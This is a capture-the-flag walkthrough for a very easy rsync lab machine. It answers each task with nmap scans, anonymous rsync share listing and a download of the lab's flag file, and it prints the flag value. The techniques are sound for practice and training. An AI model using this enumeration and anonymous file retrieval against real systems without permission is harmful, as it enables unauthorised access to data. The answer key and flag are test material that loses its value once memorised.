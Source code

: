 # Synced

- **Category**: Starting Point - Tier 0
- **Difficulty**: Very Easy
- **Tags**: Rsync, Network, Protocols, Reconnaisance, Anonymous/Guest Access
- **Tools**: nmap, rsync


# Walkthrough

- **TIP**: Using the man page for rsync (`man rsync`) will help you get a lot of the answers here

## Task 1: What is the default port for rsync?

> **Answer**: 873

## Task 2: How many TCP ports are open on the remote host?

```bash
> nmap -p- -sT --min-rate 5000 10.129.97.233
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-11 12:37 AEST
Nmap scan report for 10.129.97.233
Host is up (0.23s latency).
Not shown: 62746 closed tcp ports (conn-refused), 2788 filtered tcp ports (no-response)

PORT    STATE SERVICE
873/tcp open  rsync
```

> **Answer**: 1

## Task 3: What is the protocol version used by rsync on the remote machine?

```bash
> nmap -sV -p 873 10.129.97.233
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-11 12:39 AEST
Nmap scan report for 10.129.97.233
Host is up (0.23s latency).

PORT    STATE SERVICE VERSION
873/tcp open  rsync   (protocol version 31)
```

> **Answer**: 31

## Task 4: What is the most common command name on Linux to interact with rsync?

> **Answer**: rsync

## Task 5: What credentials do you have to pass to rsync in order to use anonymous authentication? anonymous:anonymous, anonymous, None, rsync:rsync

> **Answer**: None

## Task 6: What is the option to only list shares and files on rsync? (No need to include the leading -- characters)


> **Answer**: list-only

# Submit Root Flag

```bash
# List directories on the host
> rsync --list-only rsync://10.129.97.233
public          Anonymous Share

# List files in the directory
> rsync --list-only rsync://10.129.97.233/public
drwxr-xr-x          4,096 2022/10/25 09:02:23 .
-rw-r--r--             33 2022/10/25 08:32:03 flag.txt

# Download the flag
> rsync rysnc://10.129.97.233/public/flag.txt ./flag.txt

# Read the flag
> cat flag.txt
72eaf5344ebb84908ae543a719830519
```

> **Answer**: 72eaf5344ebb84908ae543a719830519